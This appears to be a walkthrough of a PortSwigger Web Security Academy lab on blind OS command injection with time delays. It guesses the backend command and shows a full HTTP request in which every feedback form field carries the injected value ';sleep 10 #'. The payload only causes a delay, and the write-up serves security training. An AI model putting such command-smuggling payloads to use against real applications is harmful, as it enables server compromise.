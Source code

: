 # [Lab 2: Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

---

## Description

This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.

---

## Soution

On the home page of the target web application, navigate to `Submit feedback` to find the following form.

![](images/Pasted%20image%2020210819173948.png)

According to the challenge description, the functionality behind this form is vulnerable to blind OS command injection. Perhaps the backend shell command looks something like the following:

```bash
submit-feedback.py $NAME $EMAIL '$SUBJECT' '$MESSAGE'
```

However, the order of the arguments could be incorrect. Since the goal of the challenge is to cause the target to sleep for 10 seconds, inject a `sleep` command that ends in a comment `#` into each of the four parameters. Which ever argument actually comes first will comment out all the others.

```http
POST /feedback/submit HTTP/1.1
Host: ace51f871e6d34068051700f00f9007f.web-security-academy.net
Cookie: session=7dSCkiPiDuFM0WCDrrJHI0pD5kWdMx6D
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
Origin: https://ace51f871e6d34068051700f00f9007f.web-security-academy.net
Dnt: 1
Referer: https://ace51f871e6d34068051700f00f9007f.web-security-academy.net/feedback
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=xAozUP5m3YAZ7QUWjawznNBIuVR35mx3&name=;sleep+10+#&email=;sleep+10+#&subject=;sleep+10+#&message=;sleep+10+#
```

The request causes the target to sleep for 10 seconds, successfully completing the challenge!

